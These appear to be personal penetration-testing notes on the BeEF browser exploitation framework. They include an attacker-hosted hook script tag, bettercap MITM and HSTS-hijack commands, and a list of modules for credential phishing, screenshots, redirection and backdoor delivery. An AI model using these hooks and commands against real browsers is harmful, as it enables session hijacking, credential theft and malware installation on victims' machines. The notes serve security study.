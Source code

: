 ```yaml
---
title: BeEF
---
```


BeEF : Browser Exploitation Framework  
Makes use of JS to hook the target browser. Works on any platform as long as target device browser supported JS

Username : beef  
Password : password

<u>Hook URL</u>

````bash
<script src="http://<attacker-ip-address>:3000/hook.js"></script>
````

The URL can be sent to the target using various methods like Social Engineering, MITM attack with DNS spoofing, XSS or JS Injection after performing MITM attack

### Tabs Explained

Detail Tab : Browser Details  
Logs : Events that occurred in the browser  
Commands : Run various commands  
Proxy : Allows to use hooked browser as a proxy  
XssRays : Shows if page has any XSS vulnerabilities  
Network : Overview of current network

<u>Load Hook Script on all Sites (MITM + JS Injection)</u>

Inject Beef Code : <https://drive.google.com/file/d/1uCeGZKyP1Cj2UIORqYMrlFTyi9dLaCUa/view?usp=sharing>  
Add the JS Script in the HSTS Hijack caplet file and perform MITM attack

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
hstshijack/hstshijack (Run HSTS Caplet)
````

---

### Commands

1. <u>Create Alert Dialog</u>  
   Create an dialog box on the target browser

2. <u>Raw JavaScript</u>  
   Execute JS code on the target browser

3. <u>Spyder Eye</u>  
   Take screenshot of the target browser screen

4. <u>Redirect Browser</u>  
   Redirect the target to an different webpage
   Can be used to redirect to download an backdoor, fake login page, etc.

5. <u>Get Visited URL</u>  
   Check of a URL was visited by the target

6. <u>Pretty Theft</u>  
   Create fake relogin page to steal credentials

7. <u>Fake Notification Bar</u>  
   Send Backdoor, malicious code to user using an fake notification message  
   If sending an backdoor ensure to start "Multi Handler" to listen to the connection